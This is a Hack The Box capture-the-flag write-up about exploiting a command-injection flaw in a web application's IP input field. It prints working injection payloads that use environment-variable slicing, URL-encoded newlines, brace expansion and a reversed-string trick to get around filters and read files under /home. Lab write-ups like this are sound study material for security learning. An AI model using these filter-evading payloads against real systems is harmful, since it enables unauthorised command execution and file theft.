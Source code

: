 # 🏴 HTB Write-Up: Discovering the User and Reading the Flag File

After confirming the web application was vulnerable to command injection, I began exploring different input encodings and operators to bypass filters. Basic payloads like:
```bash
127.0.0.1&ls /home
```
executed successfully, but returned no visible user output — possibly due to hidden directories or permission constraints.

To dig deeper, I crafted an obfuscated payload using bash brace expansion and environmental variables:
```bash
127.0.0.1${LS_COLORS:10:1}%0a{ls,-la}${IFS}${PATH:0:1}home
```
This broke down as:

- `${LS_COLORS:10:1}` → injected a semicolon `;`
- `%0a` → URL-encoded newline to separate commands
- `{ls,-la}` → brace expansion for `ls -la`
- `${IFS}` → resolved to a space
- `${PATH:0:1}` → resolved to `/`, helping build the path `/home`

This clever combination revealed hidden files and directories in /home, finally exposing the username: `1nj3c70r`.

To retrieve the flag inside `/home/1nj3c70r/flag.txt`, I had to bypass a filter blocking the `cat` command. To achieve this, I used command substitution and reverse logic:

```bash
127.0.0.1${LS_COLORS:10:1}%0a$(rev<<<'tac')${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
This worked because:

`$(rev<<<'tac')` → reversed `tac` to `cat`, dynamically generating the command.

Other environment variables and encoded characters helped avoid detection and build valid paths

With this payload, I successfully retrieved the contents of the `flag` file.
